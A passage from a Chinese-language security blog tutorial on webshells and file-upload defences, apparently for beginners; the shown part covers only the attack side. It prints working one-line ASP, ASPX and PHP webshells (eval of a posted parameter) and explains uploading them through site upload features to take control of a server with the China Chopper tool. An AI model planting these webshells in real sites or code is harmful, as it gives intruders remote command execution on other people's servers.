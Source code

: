 ```yaml
---
title: WebShell上传防御策略及几种绕过检测方式
date: 2017-03-20 20:47:16
categories: 技术
tags: 安全
---
```


主要介绍菜刀的基本使用方法，总结了一些对文件上传的防御策略和绕过文件上传检测的方法，新手入门向。 

# 中国菜刀连接

## WebShell

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WE目录下正常的网页文件混在一起，然后就可以使用浏览器或工具来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

通常来说，上传一句话木马通过中国菜刀连接是比较简便地拿到服务器的方法。菜刀可以连接asp、aspx、php、jsp的一句话木马。

## 一句话木马

- asp：

  ```asp
  <%eval request("pass")%>
  ```

- aspx: 

  ```asp
  <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
  ```

- php: 

  ```php
  <?php @eval($_POST['pass']);?>
  ```

其中，pass是这个木马中的密码的值，也可以替换为其他字符。

## 一句话木马运作方式

首先，可以把这个一句话木马插入到一个正常的网站文件中，asp的插入到asp文件里，php的插入到php文件里，其他同理。也可以把木马单独写在一个文件里，比如新建一个php文件，整个php文件内容就只有这一句话。

插入的方法，一般来讲是通过文件上传功能，如作业上传网站、图片上传网站，将木马文件上传到目标网站的服务器中，再将文件存储的链接添加到菜刀中，输入木马的密码即可直接拿到服务器的控制权。

## 简单的例子#

### 构造php木马

```
<?php @eval($_POST['xxt']);?> 

```
